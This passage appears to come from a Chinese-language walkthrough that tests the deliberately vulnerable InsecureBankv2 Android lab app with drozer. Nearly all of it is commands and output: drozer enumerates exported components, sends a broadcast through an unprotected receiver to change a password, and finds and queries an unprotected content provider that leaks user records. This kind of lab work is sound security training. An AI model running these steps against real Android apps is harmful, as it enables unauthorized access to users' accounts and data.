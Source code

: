   ````bash
  
  # 查看可攻击面
  dz> run app.package.attacksurface com.android.insecurebankv2
  Attack Surface:
    5 activities exported
    1 broadcast receivers exported
    1 content providers exported
    0 services exported
      is debuggable
      
  # 查看broadcast receivers exported
  dz> run app.broadcast.info -a com.android.insecurebankv2
  Package: com.android.insecurebankv2
    com.android.insecurebankv2.MyBroadCastReceiver
      Permission: null
  
  # 发送信息实现漏洞利用
  run app.broadcast.send --action theBroadcast --component com.android.insecurebankv2 com.android.insecurebankv2.MyBroadCastReceiver --extra string phonenumber 5554  --extra string newpass Dinesh@123!
  ````

  ![](images/drozer-BroadcastReceivers.gif)

- 使用dorzer实现**Exploiting Android Content Provider**

  ```bash
  # 查看可攻击面
  dz> run app.package.attacksurface com.android.insecurebankv2
  Attack Surface:
    5 activities exported
    1 broadcast receivers exported
    1 content providers exported
    0 services exported
      is debuggable
  
  # 查看content providers exported
  dz> run app.provider.info -a com.android.insecurebankv2
  Package: com.android.insecurebankv2
    Authority: com.android.insecurebankv2.TrackUserContentProvider
      Read Permission: null
      Write Permission: null
      Content Provider: com.android.insecurebankv2.TrackUserContentProvider
      Multiprocess Allowed: False
      Grant Uri Permissions: False
  
  # 扫描可能数据泄露的URI路径
  dz>  run scanner.provider.finduris -a com.android.insecurebankv2
  Scanning com.android.insecurebankv2...
  Unable to Query  content://com.android.insecurebankv2.TrackUserContentProvider/
  Unable to Query  content://com.google.android.gms.games
  Unable to Query  content://com.android.insecurebankv2.TrackUserContentProvider
  Able to Query    content://com.android.insecurebankv2.TrackUserContentProvider/trackerusers
  Able to Query    content://com.android.insecurebankv2.TrackUserContentProvider/trackerusers/
  Unable to Query  content://com.google.android.gms.games/
  
  Accessible content URIs:
    content://com.android.insecurebankv2.TrackUserContentProvider/trackerusers
    content://com.android.insecurebankv2.TrackUserContentProvider/trackerusers/
  
  # 从URI中检索信息
  run app.provider.query content://com.android.insecurebankv2.TrackUserContentProvider/trackerusers
  ```
